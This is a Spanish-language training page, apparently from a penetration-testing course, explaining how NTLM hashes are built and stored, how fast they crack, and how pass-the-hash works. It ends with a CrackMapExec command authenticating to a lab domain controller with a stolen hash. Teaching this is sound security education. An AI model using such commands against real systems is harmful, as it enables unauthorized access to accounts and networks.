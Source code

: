 ## NTHash (NTLM)

Los hashes `NT LAN Manager` (NTLM) se utilizan en sistemas Windows modernos. Es un protocolo de autenticación de desafío-respuesta y utiliza tres mensajes para autenticar: un cliente primero envía un `NEGOTIATE_MESSAGE` al servidor, cuya respuesta es un `CHALLENGE_MESSAGE` para verificar la identidad del cliente. Finalmente, el cliente responde con un `AUTHENTICATE_MESSAGE`. Estos hashes se almacenan localmente en la base de datos SAM o en el archivo de base de datos NTDS.DIT en un Domain Controller. El protocolo tiene dos valores de contraseñas hashed para elegir al realizar la autenticación: el hash LM (como se discutió anteriormente) y el hash NT, que es el hash MD4 del valor UTF-16 little-endian de la contraseña. El algoritmo se puede visualizar como: `MD4(UTF-16-LE(password))`.

### NTLM Authentication Request

![image](https://academy.hackthebox.com/storage/modules/74/ntlm_auth.png)

Aunque son considerablemente más fuertes que los hashes LM (soportando todo el conjunto de caracteres Unicode de 65,536 caracteres), todavía se pueden crackear relativamente rápido mediante fuerza bruta offline utilizando una herramienta como Hashcat. Los ataques con GPU han demostrado que todo el espacio de claves NTLM de 8 caracteres se puede crackear en menos de `3 horas`. Los hashes NTLM más largos pueden ser más difíciles de crackear dependiendo de la contraseña elegida, e incluso las contraseñas largas (15+ caracteres) se pueden crackear utilizando un ataque de diccionario offline combinado con reglas. NTLM también es vulnerable al ataque pass-the-hash, lo que significa que un atacante puede utilizar solo el hash NTLM (después de obtenerlo a través de otro ataque exitoso) para autenticarse en sistemas objetivo donde el usuario es administrador local sin necesidad de conocer el valor en texto claro de la contraseña.

Un hash NT tiene la forma de `b4b9b02e6f09a9bd760f388b67351e2b`, que es la segunda mitad del hash NTLM completo. Un hash NTLM se ve así:

```r
Rachel:500:aad3c435b514a4eeaad3b935b51304fe:e46b9e548fa0d122de7f59fb6d48eaa2:::
```

Al observar el hash anterior, podemos desglosar el hash NTLM en sus partes individuales:

- `Rachel` es el nombre de usuario.
- `500` es el Identificador Relativo (RID). 500 es el RID conocido para la cuenta de `administrator`.
- `aad3c435b514a4eeaad3b935b51304fe` es el hash LM y, si los hashes LM están desactivados en el sistema, no se puede utilizar para nada.
- `e46b9e548fa0d122de7f59fb6d48eaa2` es el hash NT. Este hash se puede crackear offline para revelar el valor en texto claro (dependiendo de la longitud/fuerza de la contraseña) o utilizar para un ataque pass-the-hash. A continuación se muestra un ejemplo de un ataque pass-the-hash exitoso utilizando la herramienta [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```r
crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2

SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)
```
